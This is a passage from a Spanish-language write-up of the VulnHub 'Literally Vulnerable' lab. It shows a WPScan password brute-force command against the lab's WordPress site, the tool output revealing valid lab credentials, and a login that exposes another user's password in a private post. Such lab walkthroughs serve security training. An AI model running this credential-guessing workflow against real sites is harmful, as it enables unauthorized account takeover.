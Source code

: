 ```bash
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

Continuamos haciendo fuerza bruta mediante WPScan, utilizando el diccionario de claves obtenidas y los usuarios.

```bash
❯ wpscan --url http://literally.vulnerable:65535/phpcms -U users.txt -P ../content/backupPasswords
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.27
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://literally.vulnerable:65535/phpcms/ [10.11.12.35]
[+] Started: Tue Mar  4 10:46:25 2025

[+] Performing password attack on Xmlrpc against 2 user/s
Trying notadmin / I'm guessing you forgot your password again! I've added a bunch of passwords below along with your password so [SUCCESS] - maybeadmin / $EPid%J2L9LufO5
Trying notadmin / Ae%tM0XIWUMsCLp Time: 00:00:01 <============================                  > (24 / 38) 63.15%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: maybeadmin, Password: $EPid%J2L9LufO5
```

Obtenemos la password de `maybeadmin`.

## Explotación

---

Ingresamos al panel de Wordpress correctamente, pero no somos administradores. 

Podemos ver el contenido del post privado, obtenemos la password del usuario `notadmin`.

![notadminpass](/assets/img/commons/vulnhub/LiterallyVulnerable/notadminpass.png){: .center-image }
